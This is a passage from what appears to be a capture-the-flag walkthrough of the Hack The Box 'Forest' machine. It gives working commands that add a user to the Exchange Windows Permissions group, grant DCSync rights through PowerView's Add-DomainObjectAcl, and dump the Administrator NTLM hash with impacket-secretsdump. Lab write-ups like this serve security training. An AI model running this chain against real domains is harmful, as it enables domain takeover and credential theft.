 to do this first I have to add then new user to the group exchange windows permissions 

![](assets/img/htb/forest/path3.png)


```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group | findstr "*Exchange Windows Permissions"
*Exchange Servers
*Exchange Trusted Subsystem
*Exchange Windows Permissions
*ExchangeLegacyInterop

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group "Exchange Windows Permissions" sentreysec /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user sentreysec | findstr "Exchange Windows Permissions"
Global Group memberships     *Exchange Windows Perm*Domain Users
```

I import powerview to the machine

```
$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload PowerView.ps1 
Info: Uploading /home/linux/Desktop/forest/content/PowerView.ps1 to C:\Users\svc-alfresco\Desktop\bh\PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> . .\PowerView.ps1
```

Then following the guide that bloodhound shows I'll abuse the write dacl permission

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\sentreysec', $SecPassword)

```

the last part gives a bit of a problem to solve it is just define the dc as "DC=htb,DC=local" and the parameter PrincipalIdentity user to define the user that will receive this privilege

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity sentreysec -Right
s DCSync
```

after doing this now I can retrieve the hashes of other users such as administrator

```
$ impacket-secretsdump htb.local/sentreysec:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
